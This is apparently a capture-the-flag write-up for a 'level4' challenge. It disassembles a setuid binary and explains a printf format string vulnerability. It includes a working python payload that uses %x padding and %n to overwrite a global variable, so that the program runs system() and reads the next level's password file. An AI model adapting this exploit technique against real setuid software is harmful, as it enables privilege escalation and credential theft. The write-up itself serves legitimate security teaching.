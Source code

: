 # Level4

## Solution

* There is one file in our home, ```level4```, belonging to ```level5``` user, with suid.
* Here's the hand-decompiled source code we propose for this binary: [source.c](source.c)

* The only purpose of the ```main``` function is to call ```n``` function.

* Here is the disassembled ```n``` function:
```asm
0x08048457 <+0>:	push   ebp
0x08048458 <+1>:	mov    ebp,esp
0x0804845a <+3>:	sub    esp,0x218
0x08048460 <+9>:	mov    eax,ds:0x8049804
0x08048465 <+14>:	mov    DWORD PTR [esp+0x8],eax
0x08048469 <+18>:	mov    DWORD PTR [esp+0x4],0x200
0x08048471 <+26>:	lea    eax,[ebp-0x208]
0x08048477 <+32>:	mov    DWORD PTR [esp],eax
0x0804847a <+35>:	call   0x8048350 <fgets@plt>
0x0804847f <+40>:	lea    eax,[ebp-0x208]
0x08048485 <+46>:	mov    DWORD PTR [esp],eax
0x08048488 <+49>:	call   0x8048444 <p>
0x0804848d <+54>:	mov    eax,ds:0x8049810
0x08048492 <+59>:	cmp    eax,0x1025544
0x08048497 <+64>:	jne    0x80484a5 <n+78>
0x08048499 <+66>:	mov    DWORD PTR [esp],0x8048590
0x080484a0 <+73>:	call   0x8048360 <system@plt>
0x080484a5 <+78>:	leave
0x080484a6 <+79>:	ret
   ```

* Several interesting information about it:

	* ```n``` calls ```fgets``` at offset ```35``` function with a buffer allocated on the stack.
	* then it calls ```p``` function (see after) at offset ```49```, passing the buffer in parameter.
	* between offsets ```54``` and ```64```, it compares the value contained at the address ```0x8049810``` with the value ```0x1025544```.
	* if they are the same, it calls ```system``` function. ```gdb``` allows us to see that the command passed in parameter is ```/bin/cat /home/user/level5/.pass```

* Here is the diassembled ```p``` function:
```
0x08048444 <+0>:	push   ebp
0x08048445 <+1>:	mov    ebp,esp
0x08048447 <+3>:	sub    esp,0x18
0x0804844a <+6>:	mov    eax,DWORD PTR [ebp+0x8]
0x0804844d <+9>:	mov    DWORD PTR [esp],eax
0x08048450 <+12>:	call   0x8048340 <printf@plt>
0x08048455 <+17>:	leave
0x08048456 <+18>:	ret
   ```

* Interesting information about it:

	* there is call to ```printf``` at offset ```12```. ```gdb``` allows us to see that it is with the buffer allocated for ```fgets```


* What we did with all of this:

	* the goal was to modify the value held at ```0x8049810``` so that it becomes equal to ```0x1025544```, what would launch the ```system("/bin/cat /home/user/level5/.pass")```
	* for that we exploited the "format string vulnerability" of ```printf``` called in ```p```, with our own ```input``` (the one we send to ```fgets```).
	* we used conversion specifiers (for instance ```%x```), to get to the beginning of the buffer allocated for ```fgets```. Indeed, each time we use a conversion specifier, ```printf``` "points" after the last argument it processed on the stack.
	* We made sure the first value at the beginning of the buffer was ```0x8049810```
	* then we used ```%n``` to store at this address the length of the output string

	* To make a long story short:
	```sh
	python -c "print('10980408'.decode('hex') + '%8x ' * 10 + '%16930022x' + '%n')" > /var/crash/lvl4
	```
	* ```10980408``` is the little endian written address we want to write at
	* we used ```11``` conversion specifiers to reach the beginning of the buffer (there were ```(10 + 1) * 4 = 44``` bytes separating first argument of printf from the buffer)
	* we use the lenght modifier ```%16930022x``` to output a final string of the size ```0x1025544```
	* ```%n``` stores this value at the address ```0x8049810```

	* We finally get the flag by launching:
	```sh
	cat /var/crash/lvl4 | ./level4
	```
